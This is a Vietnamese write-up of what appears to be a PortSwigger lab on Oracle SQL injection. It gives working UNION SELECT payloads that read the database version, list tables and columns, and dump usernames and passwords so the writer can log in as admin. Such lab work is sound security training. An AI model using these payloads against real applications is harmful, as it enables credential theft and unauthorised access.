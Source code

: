 ## SQL injection attack, listing the database contents on Oracle

> Bỏ qua xác định số trường có trong bảng nhé, chắc chắn là 2 cmnr :v
> Bỏ qua luôn xác định lỗi hiển thị ở đâu, vì chắc chắn nó sẽ ở dưới cùng :v

Nhưng mà database ở đây là Oracle nên chúng ta sẽ không **UNION SELECT ‘a’,’b’--** được mà phải là **UNION SELECT ‘a’,’b’ FROM DUAL--**

![](/imgs/SQL-Injection/28.png?raw=true)

Xác định phiên bản: **' UNION SELECT banner,NULL FROM v$version--**

![](/imgs/SQL-Injection/29.png?raw=true)

List ra toàn bộ tên database Oracle từ [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet): **SELECT * FROM all_tables**

Tương tự Oracle cũng có trường **table_name** để áp dụng vào: **' UNION SELECT table_name,NULL FROM all_tables--**
Trong đây sẽ có 1 bảng là **USERS_XEOUJT**, chúng ta sẽ tiến hành select ra các trường có trong bảng này.


![](/imgs/SQL-Injection/30.png?raw=true)

Câu query lấy ra tất cả các trường trong Oracle: 
> **SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'**

Vì thế câu query inject vào sẽ là 
> **' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_XEOUJT'--**
Ta sẽ thu được 2 columns là **PASSWORD_KCZZXF** và **USERNAME_LDDGDO**

![](/imgs/SQL-Injection/31.png?raw=true)

Select dữ liệu ra: **' UNION SELECT USERNAME_LDDGDO,PASSWORD_KCZZXF from USERS_XEOUJT--**

![](/imgs/SQL-Injection/32.png?raw=true)

Login tài khoản admin vào là solve

![](/imgs/SQL-Injection/33.png?raw=true)